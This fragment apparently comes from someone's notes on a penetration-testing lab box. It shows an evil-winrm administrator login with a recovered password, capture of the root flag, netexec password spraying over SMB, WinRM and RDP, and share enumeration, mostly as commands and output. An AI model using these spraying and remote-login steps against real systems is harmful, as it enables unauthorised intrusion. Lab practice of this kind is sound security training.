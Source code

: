 # Access as administrator

```bash
evil-winrm -i 192.168.190.96 -u administrator -p 'Almost4There8.?'
```
BINGO!!!

Root flag:
```powershell
type C:\Users\Administrator\Desktop\proof.txt
# 70230bb7b7330331cadda1aa45ea9f2c
```

## Password spraying

Spray the newly found PW:
```bash
# SMB
netexec smb 192.168.147.97 192.168.147.96 192.168.147.95 -u ad_users.txt -p 'Almost4There8.?'
# Nope

netexec smb 192.168.147.97 192.168.147.96 192.168.147.95 -u ad_users.txt -p 'Almost4There8.?' --local-auth
# SMB         192.168.147.96  445    ERA              [+] ERA\Administrator:Almost4There8.? (Pwn3d!)

# =====================================================================
# winrm
netexec winrm 192.168.147.97 192.168.147.96 192.168.147.95 -u ad_users.txt -p 'Almost4There8.?'
# Nope

netexec winrm 192.168.147.97 192.168.147.96 192.168.147.95 -u ad_users.txt -p 'Almost4There8.?' --local-auth
# WINRM       192.168.147.96  5985   ERA              [+] ERA\Administrator:Almost4There8.? (Pwn3d!)

# =====================================================================
# rdp
netexec rdp 192.168.147.97 192.168.147.96 192.168.147.95 -u ad_users.txt -p 'Almost4There8.?'
# Nope

netexec rdp 192.168.147.97 192.168.147.96 192.168.147.95 -u ad_users.txt -p 'Almost4There8.?' --local-auth
# Nope
```
=> nothing new, the password is only valid for the host`ERA` and the user `administrator`

## SMB enum

```bash
netexec smb 192.168.190.96 -u 'Administrator' -p 'Almost4There8.?' --local-auth --shares

# ADMIN$          READ,WRITE      Remote Admin
# C$              READ,WRITE      Default share
# IPC$            READ            Remote IPC
```
=> nada
